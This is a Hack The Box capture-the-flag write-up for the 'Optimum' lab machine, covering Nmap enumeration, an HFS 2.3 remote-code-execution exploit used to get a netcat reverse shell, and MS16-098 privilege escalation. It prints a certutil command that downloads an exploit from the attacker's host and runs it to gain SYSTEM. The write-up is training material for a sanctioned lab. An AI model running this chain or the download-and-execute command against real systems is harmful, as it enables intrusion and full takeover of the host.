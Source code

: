# HTB - Optimum

#### Ip: 10.10.10.8
#### Name: Optimum
#### Rating: Easy

----------------------------------------------------------------------

Optimum.png

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/HTB/Optimum]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.8    
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 14:43 CDT
Nmap scan report for 10.10.10.8
Host is up (0.067s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.37 seconds
```

Looks like just port 80 open here, lets scan it again but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/HTB/Optimum]
└─$ sudo nmap -sC -sV -T4 10.10.10.8 -p 80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 14:45 CDT
Nmap scan report for 10.10.10.8
Host is up (0.065s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.95 seconds
```
Cool, looks like Nmap has identified HttpFileServer httpd 2.3 running, and we can confirm that by heading to the site itself:

hfs.png

Searching for this version in Google we find an RCE that looks promising: https://www.exploit-db.com/exploits/39161

edb.png

### Exploitation

First I'll copy over a copy of nc.exe to my working directory, set up a Python http server, and then update the script with my correct IP and port I'll be listening on. After that I'll use the exploit to transfer nc.exe to the target, and get a reverse shell back on my listener:

shell.png

Nice! That Worked! We can now grab the user.txt flag:

user_flag.png

### Privilege Escalation

First I'll transfer over a copy of winPEAS to help with the enumeration for privesc:

transfer.png

Loking through the results I'm not seeing much. Because I know this is an old machine, I run `ststeminfo` to see if I can get any more info:

```text
C:\Users\kostas\Documents>systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User

<snip>
```

Googling Microsoft Windows Server 2012 R2 Standard leads me to MS16-098 and I find this exploit: https://www.exploit-db.com/exploits/41020

edb2.png

I can transfer over the executable with certutil, and simply run it.

```text
C:\Users\kostas\Documents>certutil -urlcache -split -f "http://10.10.14.46/41020.exe"
certutil -urlcache -split -f "http://10.10.14.46/41020.exe"
****  Online  ****
  000000  ...
  088c00
CertUtil: -URLCache command completed successfully.

C:\Users\kostas\Documents>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Documents>whoami
whoami
nt authority\system
```

Nice! We are now nt authorit\sytem on the target! Lets grab that root.txt flag:

root_flag.png

Thanks for following along!

-Ryan

-----------------------------------------------------------------